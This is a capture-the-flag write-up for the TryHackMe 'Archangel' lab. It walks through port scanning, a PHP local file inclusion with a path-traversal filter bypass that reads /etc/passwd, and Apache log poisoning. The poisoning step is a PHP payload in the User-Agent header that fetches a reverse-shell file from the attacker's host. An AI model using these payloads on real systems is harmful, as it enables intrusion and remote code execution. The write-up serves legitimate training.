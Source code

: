 ------------------

### CTF: TRYHACKME
### Lab: Archangel

------------------

![image](https://github.com/user-attachments/assets/f7ae508e-590e-409a-92c9-355575db7c23)

-------------------

### RECONNAISSANCE

- Rustscan's output

      ❯ rustscan -a 10.10.221.102 -- -sC -sV
      .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
      | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
      | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
      `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
      The Modern Day Port Scanner.
      ________________________________________
      : https://discord.gg/GFrQsGy           :
      : https://github.com/RustScan/RustScan :
       --------------------------------------
      Real hackers hack time ⌛
      
      [~] The config file is expected to be at "/home/sensei/.rustscan.toml"
      [!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
      [!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
      Open 10.10.221.102:22
      Open 10.10.221.102:80
      [~] Starting Script(s)
      [>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")                                                                                        
                                                                                                                                                       
      [~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-26 13:23 EDT                                                                           
      NSE: Loaded 156 scripts for scanning.                                                                                                            
      NSE: Script Pre-scanning.                                                                                                                        
      NSE: Starting runlevel 1 (of 3) scan.                                                                                                            
      Initiating NSE at 13:23                                                                                                                          
      Completed NSE at 13:23, 0.00s elapsed                                                                                                            
      NSE: Starting runlevel 2 (of 3) scan.                                                                                                            
      Initiating NSE at 13:23                                                                                                                          
      Completed NSE at 13:23, 0.00s elapsed                                                                                                            
      NSE: Starting runlevel 3 (of 3) scan.                                                                                                            
      Initiating NSE at 13:23                                                                                                                          
      Completed NSE at 13:23, 0.00s elapsed                                                                                                            
      Initiating Ping Scan at 13:23                                                                                                                    
      Scanning 10.10.221.102 [2 ports]                                                                                                                 
      Completed Ping Scan at 13:23, 0.17s elapsed (1 total hosts)                                                                                      
      Initiating Connect Scan at 13:23                                                                                                                 
      Scanning mafialive.thm (10.10.221.102) [2 ports]
      Discovered open port 80/tcp on 10.10.221.102
      Discovered open port 22/tcp on 10.10.221.102
      Completed Connect Scan at 13:23, 0.21s elapsed (2 total ports)
      Initiating Service scan at 13:23
      Scanning 2 services on mafialive.thm (10.10.221.102)
      Completed Service scan at 13:23, 6.67s elapsed (2 services on 1 host)
      NSE: Script scanning 10.10.221.102.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 13:23
      Completed NSE at 13:23, 6.83s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 13:23
      Completed NSE at 13:23, 0.74s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 13:23
      Completed NSE at 13:23, 0.01s elapsed
      Nmap scan report for mafialive.thm (10.10.221.102)
      Host is up, received syn-ack (0.18s latency).
      Scanned at 2024-08-26 13:23:04 EDT for 15s
      
      PORT   STATE SERVICE REASON  VERSION
      22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey: 
      |   2048 9f:1d:2c:9d:6c:a4:0e:46:40:50:6f:ed:cf:1c:f3:8c (RSA)
      | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDPrwb4vLZ/CJqefgxZMUh3zsubjXMLrKYpP8Oy5jNSRaZynNICWMQNfcuLZ2GZbR84iEQJrNqCFcbsgD+4OPyy0TXV1biJExck3OlriDBn3g9trxh6qcHTBKoUMM3CnEJtuaZ1ZPmmebbRGyrG03jzIow+w2updsJ3C0nkUxdSQ7FaNxwYOZ5S3X5XdLw2RXu/o130fs6qmFYYTm2qii6Ilf5EkyffeYRc8SbPpZKoEpT7TQ08VYEICier9ND408kGERHinsVtBDkaCec3XmWXkFsOJUdW4BYVhrD3M8JBvL1kPmReOnx8Q7JX2JpGDenXNOjEBS3BIX2vjj17Qo3V
      |   256 63:73:27:c7:61:04:25:6a:08:70:7a:36:b2:f2:84:0d (ECDSA)
      | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKhhd/akQ2OLPa2ogtMy7V/GEqDyDz8IZZQ+266QEHke6vdC9papydu1wlbdtMVdOPx1S6zxA4CzyrcIwDQSiCg=
      |   256 b6:4e:d2:9c:37:85:d6:76:53:e8:c4:e0:48:1c:ae:6c (ED25519)
      |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBE3FV9PrmRlGbT2XSUjGvDjlWoA/7nPoHjcCXLer12O
      80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
      | http-robots.txt: 1 disallowed entry 
      |_/test.php
      | http-methods: 
      |_  Supported Methods: GET POST OPTIONS HEAD
      |_http-server-header: Apache/2.4.29 (Ubuntu)
      |_http-title: Site doesn't have a title (text/html).
      Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

- I discovered a possible domain while checking the index page.

![image](https://github.com/user-attachments/assets/5afc78d2-8d3c-4519-b99f-df38e104e459)

- The domain `mafialive.thm` is up. Don't forget to add to `/etc/hosts`

![image](https://github.com/user-attachments/assets/10a89299-0874-4ac1-be48-20c0a22dc7ac)

- FFUF's Fuzzing results for `mafialive.thm`

![image](https://github.com/user-attachments/assets/f189b5df-15e5-48d3-8c67-55e5c6385f7a)

- Checking `robots.txt` shows an hidden test.php

![image](https://github.com/user-attachments/assets/21682395-84c1-4593-bfa9-938b25199da8)

- Test.php

![image](https://github.com/user-attachments/assets/796d8211-a6b5-4b9c-b6df-65240e08382f)

### Local File Inclusion

- I checked the source code and noticed that the `view` query allows us to read files

![image](https://github.com/user-attachments/assets/c789dc64-80d3-4587-b548-4fa70d59a9fc)

- The page filters some characters

![image](https://github.com/user-attachments/assets/bdf74ebb-31f3-47e5-9c78-14e5f7715281)

- I used  `php://filter/convert.base64-encode/resource=[filepath]` filter to read files in base64 format.The `include()` allows an attacker to read files
in php but we need to read the code to bypass the filters.We can read the `test.php` directly, php automatically renders or execute the code.
With the aid of the encoding filter,we can pass it out in encoded form instead of php. The filter above renders the file in base64 format.

![image](https://github.com/user-attachments/assets/f1c8f735-6a4b-4252-93df-7ede63cd3d86)

### Filters bypass

- Code:

      <!DOCTYPE HTML>
      <html>
      
      <head>
          <title>INCLUDE</title>
          <h1>Test Page. Not to be Deployed</h1>
       
          </button></a> <a href="/test.php?view=/var/www/html/development_testing/mrrobot.php"><button id="secret">Here is a button</button></a><br>
              <?php
      
                  //FLAG: thm{explo1t1ng_lf1}
      
                  function containsStr($str, $substr) {
                      return strpos($str, $substr) !== false;
                  }
                  if(isset($_GET["view"])){
                  if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
                      include $_GET['view'];
                  }else{
      
                      echo 'Sorry, Thats not allowed';
                  }
              }
              ?>
          </div>
      </body>
      
      </html>

- Filter

      if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing'))

  - `!containsStr($_GET['view'], '../..')` checks if `../..` is in the parameter view and the other `containsStr($_GET['view'], '/var/www/html/development_testing')` checks if directory "/var/www/html/development_testing" is in the file path.

- I bypassed it by adding `./` after `../`.The characters `./` tells linux to check the current directory for `..` which in turns go up a directory.Example:

 ![image](https://github.com/user-attachments/assets/4ca6405e-8777-4757-a3a6-2a3e7aa1b37a)

- In the case of the the target,we have to go up 4 directories to read sensitive files.The payload below will read the `/etc/passwd` file.

  Payload-:```/var/www/html/development_testing/.././.././.././.././.././etc/passwd```

![image](https://github.com/user-attachments/assets/c43c51a9-43c8-4c1f-8880-86061e2d247c)

### Poisoning apache log gain RCE

- Apache server's log can be found in `/var/log/apache2/access.log`.

![image](https://github.com/user-attachments/assets/1263e347-cbee-485a-baff-86f313caae88)

- Adding php code the `User-Agent` header will reflect in the log file and execute as php code. I got an idea to exploit it from this [github's repo](https://github.com/RoqueNight/LFI---RCE-Cheat-Sheet)

- The code `<?php file_put_contents('shell.php',file_get_contents('http://<local_ip>:<PORT>/shell-php-rev.php')) ?>` uses the file_get_contents() to get the content of the file hosted on our http server.The file's contents is written to shell.php. The file path should be `/var/www/html/development_testing/shell.php` because we have write access to `development_testing`.

![image](https://github.com/user-attachments/assets/65656a09-8f1f-42c0-9b8b-6db48a95b49d)

- Shell access

![image](https://github.com/user-attachments/assets/45aa405e-aeb6-4026-b19b-4589acdbe6af)

### Initial Foothold














